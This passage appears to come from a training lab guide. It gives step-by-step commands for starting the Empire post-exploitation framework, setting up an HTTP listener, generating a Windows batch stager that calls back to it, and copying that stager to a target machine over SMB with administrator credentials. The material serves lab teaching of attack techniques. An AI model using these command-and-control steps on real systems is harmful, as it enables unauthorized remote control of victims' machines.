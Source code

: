 > **NOTE** - All Linux commands are *case-sensitive*.

3. Once in the Linux SSH session elevate to `root`:

    `su`

    Use the `root` password from the lab guide.

1. Launch the Empire application:

    `cd /root/Empire`

    `./empire`

1. Generate the listener:

    `listeners`

    `uselistener http`

    `set Port 8080`

    Use the TAB completion to fill in the IP address in the Host address below:

    `set Host http://TAB_for_IP_autofill:8080`

    `info`

    `execute`

    `back`

    `list`

1. Generate the stager code and exit Empire:

    `back`

    `usestager windows/launcher_bat`

    `info`

    `set Listener http`

    `set Delete False`

    `info`

    `generate`

    `exit`

    `y`

1. Copy the `launcher.bat` file to the target machine:

    `smbclient //client-01/c$ -U administrator -W training`

    *Type the `administrator` password from the lab guide*

    `dir`

    `cd badness`

    `put /tmp/launcher.bat ./launcher.bat`
